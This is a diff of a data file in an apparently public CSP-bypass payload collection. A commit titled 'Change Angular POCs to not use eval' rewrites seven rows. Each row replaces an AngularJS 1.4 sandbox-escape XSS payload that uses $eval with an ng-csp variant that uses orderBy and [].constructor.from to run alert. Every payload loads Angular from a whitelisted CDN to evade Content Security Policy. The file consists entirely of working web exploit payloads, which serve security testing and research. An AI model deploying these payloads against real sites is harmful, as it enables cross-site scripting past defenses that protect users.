

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Change Angular POCs to not use eval

```diff
--- a/data.tsv
+++ b/data.tsv
-B4: <script src="//ajax.googleapis.com/ajax/libs/angularjs/1.4.5/angular.js"></script><div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
+B4: <body ng-app ng-csp><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.5/angular.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-B19: <script src="//apps.bdimg.com/libs/angular.js/1.4.6/angular.min.js"></script><div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
+B19: <body ng-app ng-csp><script src="https://apps.bdimg.com/libs/angular.js/1.4.6/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-B22: <script src="https://cdn.jsdelivr.net/npm/angular@1.4.5/angular.min.js"></script><div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
+B22: <body ng-app ng-csp><script src="https://cdn.jsdelivr.net/npm/angular@1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-B24: <script src="https://cdn.syncfusion.com/js/assets/external/angular.min.js"></script><div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
+B24: <body ng-app ng-csp><script src="https://cdn.syncfusion.com/js/assets/external/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-B25: <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script><div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}} </div>
+B25: <body ng-app ng-csp><script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.5/angular.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-B26: <script src="https://code.angularjs.org/1.4.5/angular.min.js"></script><div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
+B26: <body ng-app ng-csp><script src="https://code.angularjs.org/1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
-B62: <script src="https://unpkg.com/angular@1.4.5/angular.min.js"></script><div ng-app>{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1);//');}}</div>
+B62: <body ng-app ng-csp><script src="https://unpkg.com/angular@1.4.5/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>
```
